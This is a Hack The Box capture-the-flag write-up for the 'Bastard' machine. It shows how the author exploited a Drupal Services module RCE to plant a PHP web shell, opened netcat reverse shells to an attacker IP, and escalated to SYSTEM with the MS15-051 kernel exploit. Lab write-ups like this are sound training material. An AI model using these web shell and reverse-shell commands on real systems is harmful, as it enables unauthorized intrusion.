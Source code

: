 # Bastard

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.254
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 04:29 EDT
Nmap scan report for 10.129.84.254
Host is up (0.0072s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
```

### Drupal

Port 80 was a Drupal Instance:

<figure><img src="../../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

This box is really old, the intended exploit is to use Drupal Module RCE. Here's the PoC:

{% embed url="https://www.exploit-db.com/exploits/41564" %}

We need to edit the top of the script to have the correct URL and endpoints accordingly:

```php
$url = 'http://10.129.84.254';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Then, we can run the exploit:

```
$ php exploit.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.129.84.254/test.php

$ curl -G --data-urlencode 'cmd=whoami' 'http://10.129.84.254/test.php'
nt authority\iusr
```

We now have RCE, and getting a reverse shell can be done through `nc.exe`.&#x20;

```
$ curl -G --data-urlencode 'cmd=\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444' 'http://10.129.84.254/test.php'
```

<figure><img src="../../../.gitbook/assets/image (499) (2).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation --> Kernel

This is a really old machine, so tehre's bound to be some Windows Kernel exploit that we can use.&#x20;

```
C:\Users\dimitris>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          30/4/2023, 11:27:25 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.559 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.578 MB
Virtual Memory: In Use:    517 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.84.254
```

`SeImpersonatePrivilege` is also enabled, making this an easy exploit. For this particular case, we can use MS15-051.&#x20;

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip" %}

When run, we can see that it works:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "whoami" 
\\10.10.14.2\share\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2268 created.
==============================
NT AUTHORITY\SYSTEM
```

We can run another reverse shell easily:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2400 created.
```

<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

Rooted!

